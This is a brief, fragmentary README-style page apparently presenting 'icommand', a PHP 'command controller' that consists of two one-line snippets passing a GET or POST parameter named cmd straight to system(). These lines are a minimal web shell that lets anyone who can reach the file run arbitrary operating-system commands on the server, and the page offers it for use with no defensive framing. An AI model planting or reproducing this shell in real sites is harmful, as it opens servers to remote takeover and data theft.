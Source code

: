 ### icommand - command controller for PHP system function
- - -   
<p>icommand works for **POST** and **GET** requests:  
        <?php system($_GET['cmd']); ?>  
        <?php system($_POST['cmd']); ?>

